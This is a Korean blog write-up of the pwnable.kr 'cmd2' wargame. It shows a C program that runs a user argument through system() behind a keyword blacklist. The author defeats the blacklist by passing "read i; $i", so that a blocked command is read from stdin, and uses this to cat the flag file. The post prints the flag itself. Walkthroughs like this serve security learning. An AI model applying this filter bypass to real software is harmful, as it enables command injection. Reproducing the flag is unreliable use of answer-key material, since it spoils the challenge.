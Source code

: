 ```yaml
---
layout: post
title: Pwnable.kr cmd2
categories: [Wargame]
comments: true
---
```


cmd1의 플래그를 패스워드로 사용하여 cmd2에 접속할 수 있다.

{% highlight c %}
cmd2@ubuntu:~$ cat cmd2.c 
#include <stdio.h>
#include <string.h>
 
int filter(char* cmd){
    int r=0;
    r += strstr(cmd, "=")!=0;
    r += strstr(cmd, "PATH")!=0;
    r += strstr(cmd, "export")!=0;
    r += strstr(cmd, "/")!=0;
    r += strstr(cmd, "`")!=0;
    r += strstr(cmd, "flag")!=0;
    return r;
}
 
extern char** environ;
void delete_env(){
    char** p;
    for(p=environ; *p; p++)    memset(*p, 0, strlen(*p));
}
 
int main(int argc, char* argv[], char** envp){
    delete_env();
    putenv("PATH=/no_command_execution_until_you_become_a_hacker");
    if(filter(argv[1])) return 0;
    printf("%s\n", argv[1]);
    system( argv[1] );
    return 0;
}
{% endhighlight %}

저번 문제에서 사용했던 <code><b>``</b></code>와 **`/`**를 사용할 수 없게 되었다.

그리고 추가적으로 환경변수를 모두 제거하여 환경변수에 등록하여 사용하는 방법은 막히게 되었다.

그럼 이 문제는 다른 방법으로 풀어야 하는데, 이 문제에서 사용할 수 있는 방법은 배쉬의 `기본함수`를 이용하는 방법이다.

내가 선택한 방법은 `read`를 이용한 방법이다.

read는 읽어들여 변수에 저장하는 방법이다. 명령을 읽어들이게 하여 `system`함수에서 읽어들인 명령을 수행하도록 만드는게 목표이다.

{% highlight bash %}
cmd2@ubuntu:~$ read i; echo $i
test
^D
test
{% endhighlight %}

다음과 같이 읽어들인 내용이 i변수에 저장됨을 볼 수 있다. `$i`를 `echo`의 인자로 주었는데 인자로 주지 않고 수행하는것을 보자.

{% highlight bash %}
cmd2@ubuntu:~$ read i; $i
ls
^D
cmd2  cmd2.c  flag
{% endhighlight %}

ls 명령이 정상적으로 실행된다. `read i; $i` 라는 문자열은 filter에 걸리지 않으므로 정상적으로 수행시킬 수 있는 내용이다.

이를 이용하여 문제를 해결해 보도록 하겠다.

{% highlight bash %}
cmd2@ubuntu:~$ ./cmd2 "read i; \$i"
read i; $i
/bin/cat /home/cmd2/flag
FuN_w1th_5h3ll_v4riabl3s_haha
{% endhighlight %}